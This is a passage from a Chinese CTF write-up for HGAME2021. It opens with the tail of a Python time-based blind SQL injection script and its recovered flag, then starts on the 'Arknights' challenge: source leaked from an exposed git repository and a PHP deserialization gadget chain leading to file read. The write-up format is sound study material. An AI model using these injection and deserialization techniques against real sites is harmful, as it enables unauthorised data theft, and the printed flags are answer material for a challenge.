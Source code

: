 ```python
            try:
                start = time.time()
                r = requests.post(url=host, data=data)
                print(data)
                print(time.time()-start)
                if time.time()-start < 1.5:
                    bot = mid(bot, top) + 1
                else:
                    top = mid(bot, top)
            except:
                continue
        name += chr(top)
        print(name)

if __name__ == '__main__':
    sqli()
    #hgame{7imeB4se_injeCti0n+hiDe~th3^5ecRets}

```

hgame{7imeB4se_injeCti0n+hiDe~th3^5ecRets}

### Arknights

考点：PHP反序列化

![image-20210215121933780](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210215121944.png)

题目是一个类似于抽卡的网站，描述里面说"r4u用git部署到了自己的服务器上"，那么自然而然Githack把源码hack下来。

[source.zip](https://github.com/Anthem-whisper/CTFWEB_sourcecode/raw/main/HGAME2021/%5BHGAME2021%5DArknights.zip)

在`simulator.php`我们可以看到有很多类，其中第146行

```php
class Eeeeeeevallllllll{
    public $msg="坏坏liki到此一游";

    public function __destruct()
    {
        echo $this->msg;
    }
}
```

有一个echo操作，那么我们全局搜索`__toString`。第93行：

```php
class CardsPool{
    ……
        
    public function __toString(){
        return file_get_contents($this->file);
    }
}
```
